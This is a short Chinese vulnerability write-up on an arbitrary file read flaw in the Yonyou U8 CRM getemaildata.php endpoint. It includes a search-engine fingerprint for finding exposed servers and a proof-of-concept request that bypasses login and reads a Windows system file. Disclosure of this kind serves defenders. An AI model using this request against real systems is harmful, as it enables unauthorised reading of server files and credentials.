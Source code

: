 # 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件读取漏洞

# 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件读取漏洞

## 漏洞描述

用友 U8 CRM客户关系管理系统 getemaildata.php 存在任意文件读取漏洞，攻击者通过漏洞可以获取到服务器中的敏感文件

## 漏洞影响

用友 U8 CRM客户关系管理系统

## 网络测绘

```
web.body="用友U8CRM"
```

## 漏洞复现

登陆页面

![image-20230828150939621](images/image-20230828150939621.png)

验证POC

```
/ajax/getemaildata.php?DontCheckLogin=1&filePath=c:/windows/win.ini
```

![image-20230828150951560](images/image-20230828150951560.png)

